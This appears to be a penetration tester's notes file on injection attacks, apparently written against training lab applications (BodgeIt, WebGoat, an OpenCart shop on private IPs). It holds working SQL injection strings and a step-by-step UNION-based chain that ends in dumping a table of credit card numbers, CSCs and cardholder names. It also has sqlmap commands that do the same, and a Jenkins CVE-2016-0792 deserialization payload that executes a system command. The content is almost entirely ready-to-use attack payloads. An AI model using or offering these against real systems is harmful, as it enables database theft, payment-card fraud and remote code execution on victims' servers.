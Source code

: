 # A1 - Injection


## SQL Injection

### Into string 
BodgeIt login

`' or 1=1);--`

`admin@thebodgeitstore.com' or '1'='1);--`


### Numeric

Examples on [WebGoat](http://10.6.6.10:8080/WebGoat-5.4/attack?Screen=77&menu=1100)

```
SUBMIT=Go%21&station=102%2b1
SUBMIT=Go%21&station=102 or 1=1
SUBMIT=Go%21&station=102 ORDER BY 7
SUBMIT=Go%21&station=102 union select 1,null,user(),null,null from weather_data
```


Examples on ["AwesomeShop"](http://10.6.6.13/oc/)

Confirmation of SQLi

`http://10.6.6.13/oc/index.php?route=information/information/info&information_id=-2490%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28IFNULL%28CAST%28VERSION%28%29%20AS%20CHAR%29%2C0x20%29%29%2CNULL%2CNULL%23`

enumerate columns count

`http://10.6.6.13/oc/index.php?route=information/information/info&information_id=-2490%27%20order%20by%2010%23`

get db user, host, DBMS version, DB

`http://10.6.6.13/oc/index.php?route=information/information/info&information_id=-2490%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28USER%28%29%2C0x20%2CDATABASE%28%29%2C0x20%2C@@VERSION%29%2CNULL%2CNULL%23`

get tables count to iterate

`http://10.6.6.13/oc/index.php?route=information/information/info&information_id=-3444%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28COUNT%28*%29%29%2CNULL%2CNULL%2CNULL%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%20IN%20%28%27opencart%27%29%23`

get table names

`http://10.6.6.13/oc/index.php?route=information/information/info&information_id=-3444%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28table_name%29%2CNULL%2CNULL%2CNULL%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%20IN%20%28%27opencart%27%29%20limit%200,1%23`
... LIMIT 2,1


get column names

`http://10.6.6.13/oc/index.php?route=information/information/info&information_id=-3428' UNION ALL SELECT NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2C(SELECT CONCAT(column_name,0x20,column_type) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='cc' AND table_schema='opencart' LIMIT 0,1)%2CNULL%2CNULL%2CNULL%23`
... LIMIT 2,1

dump the data

`http://10.6.6.13/oc/index.php?route=information/information/info&information_id=-3428%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2C%28SELECT%20CONCAT%28id,0x2c,CSC,type,0x2c,ccnum,0x2c,state,0x2c,expire_m,0x2c,expire_y,0x2c,last_name,0x2c,first_name%29%20FROM%20opencart.cc%20LIMIT%200,1%29%2CNULL%2CNULL%2CNULL%23`


Using sqlmap
```
sqlmap -b --dbms=mysql --batch -u 'http://10.6.6.13/oc/index.php?route=information/information/info&information_id=3*'
sqlmap --current-db  --technique=U --dbms=mysql --batch -u 'http://10.6.6.13/oc/index.php?route=information/information/info&information_id=3*'
sqlmap --schema -D 'opencart' --technique=U --dbms=mysql --batch -u 'http://10.6.6.13/oc/index.php?route=information/information/info&information_id=3*'
sqlmap --dump -T 'cc' -D 'opencart' --technique=U --dbms=mysql --batch -u 'http://10.6.6.13/oc/index.php?route=information/information/info&information_id=3*'
```

## Deserialization / Object Injection
Jenkins CVE-2016-0792

```
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando" reference="../../../.."/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>open</string>
                <string>/Applications/Calculator.app</string>
              </command>
              <redirectErrorStream>false</redirectErrorStream>
            </owner>
            <resolveStrategy>0</resolveStrategy>
            <directive>0</directive>
            <parameterTypes/>
            <maximumNumberOfParameters>0</maximumNumberOfParameters>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
    <int>1</int>
  </entry>
</map>
```
